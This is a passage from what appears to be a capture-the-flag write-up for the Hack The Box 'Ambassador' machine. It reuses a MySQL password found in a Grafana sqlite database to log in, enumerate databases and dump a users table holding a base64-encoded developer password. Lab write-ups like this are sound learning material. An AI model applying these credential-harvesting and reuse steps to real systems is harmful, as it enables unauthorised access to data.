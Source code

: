 ```bash
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-19 05:50:48|0|{}|1|uKewFgM4z
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230119224023.png)

- We can then utilize the `mysql` instance on port `3306`.
- In order to sign in:

```bash
mysql -u grafana --password -h ambassador.htb -P 3306
Enter password: dontStandSoCloseToMe63221!
```

- Show the databases available.

```bash
show databases;

+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
```

- Select a specific database then show the tables that are within said database.

```bash
use whackywidget
show tables;

+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
```

- Select all from the `users` table.

```bash
select * from users;

+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```
